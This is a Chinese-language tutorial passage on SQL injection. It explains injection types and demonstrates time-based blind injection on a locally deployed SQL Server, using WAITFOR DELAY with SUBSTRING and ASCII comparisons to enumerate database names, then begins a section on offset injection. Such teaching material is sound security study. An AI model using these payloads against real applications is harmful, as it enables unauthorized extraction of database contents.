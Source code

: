 # SQL注入简介

**SQL注入**（英语：SQL injection），也称**SQL注入**或**SQL注码**，是发生于应用程序与数据库层的[安全漏洞](https://zh.wikipedia.org/wiki/安全漏洞)。简而言之，是在输入的字符串之中注入[SQL](https://zh.wikipedia.org/wiki/SQL)指令，在设计不良的[程序](https://zh.wikipedia.org/wiki/计算机程序)当中忽略了字符检查，那么这些注入进去的恶意指令就会被[数据库](https://zh.wikipedia.org/wiki/資料庫)[服务器](https://zh.wikipedia.org/wiki/伺服器)误认为是正常的SQL指令而运行，因此遭到破坏或是入侵。

白话来说就是：未对用户输入数据做过滤，将用户输入数据当作代码来执行。



## 注入类型

根据使用的技巧，SQL注入类型可分为：

- 盲注
  * 布尔盲注：只能从应用返回中推断语句执行后的布尔值
  * 时间盲注：应用没有明确的回显，只能使用特定的时间函数来判断
- 报错注入：应用会显示全部或者部分的报错信息
- 堆叠注入：有的应用可以加入`;`后一次执行多条语句

根据不同数据库服务器，注入语句也有所不同。



# SQL Server

## 简介

WAITFOR是SQL Server中Transact-SQL提供的一个流程控制语句。它的作用就是等待特定时间后，继续执行后续语句。它包含一个参数DELAY，用来指定等待的时间。

```sql
# 用法：上述语句表示等待5秒再执行操作。
WAITFOR DELAY '0:0:5'

# 示例：
select 1 WAITFOR DELAY '0:0:5'
```

这里是在centos7上通过docker部署的SQL Server

```
docker run -e "ACCEPT_EULA=Y" -e "SA_PASSWORD=Qwer1234" -p 1433:1433 --name ssql  -d mcr.microsoft.com/mssql/server:2017-latest
```

通过工具或配置代码，即可连接。

使用命令查看SQL Server版本

```sql
select @@version

Microsoft SQL Server 2017 (RTM-CU25) (KB5003830) - 14.0.3401.7 (X64) 
	Jun 25 2021 14:02:48 
	Copyright (C) 2017 Microsoft Corporation
	Developer Edition (64-bit) on Linux (Ubuntu 16.04.7 LTS)
```



## SQL注入常用函数

### SUBSTRING

字符截断函数：SUBSTRING(expression, start, length)  

其中：

* expression：需要被截断的字符，可以是字符，二进制，文本，`ntext`或图像表达式。
* start：从第几位开始截断
* length：需要是一个正整数，否则会报错，用来指定总共需要截断的字符长度

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210817211405.png)

构造注入语句，判断是否存在注入点

```
SELECT name
FROM sys.databases
where database_id = 1
IF (SUBSTRING(DB_NAME(), 1, 1) = 'm') WAITFOR delay '0:0:3';


SELECT name
FROM sys.databases
where database_id = 1
IF (SUBSTRING(DB_NAME(), 1, 1) = CHAR(109)) WAITFOR delay '0:0:3';
```

#### ASCII码半截法

```
SELECT name
FROM sys.databases
where database_id = 1
IF ASCII(SUBSTRING(DB_NAME(), 1, 1)) > 30
WAITFOR DELAY '0:0:3';
```

通过判断字符的ASCII可以枚举该字段的所有值。

也可以构造子查询语句来实现SQL注入。

```
SELECT name
FROM sys.databases
where database_id = 1
IF (SUBSTRING((SELECT name
FROM sys.databases
where database_id = 2), 3, 1)) = 'm'
WAITFOR DELAY '0:0:3';
```

id为2的值参考上图中的结果。



## 高级注入技巧——位移注入



这种注入方式适合在找到表但是找不到字段的情况下使用。

这种注入方式需要联合两张表，所以该注入方式也是联合查询的一种。

### 原理

在SQL注入中，甚至在Linux系统中，`*`表示所有。比如：

```
SELECT * FROM sys.databases;
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210817220310.png)

`*`在这里表示返回所有字段的所有值。

